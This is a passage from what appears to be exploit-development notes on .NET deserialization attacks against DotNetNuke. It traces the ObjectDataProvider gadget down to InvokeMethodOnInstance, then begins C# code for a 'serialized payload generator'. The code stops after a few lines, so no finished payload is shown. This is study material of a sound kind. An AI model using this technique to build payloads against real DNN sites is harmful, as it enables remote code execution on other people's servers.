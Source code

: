 We see another call to the QueryWorker method in the end.
Tracing this method:

![](../../03.%20Screenshots/t4-ss28.png)

We arrive at the function call to InvokeMethodOnInstance.
This is exactly the point at which the target method in the wrapped object is invoked.

## Example Use
We need to create a final serialized payload generator and thus we'll start with a basic project that uses existing DNN code.
(Note: we need to set dotnetnuke.dll and PresentationFramework.dll as references)

Our code will look like so:

```c#
using System;
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;

namespace ODPSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
```
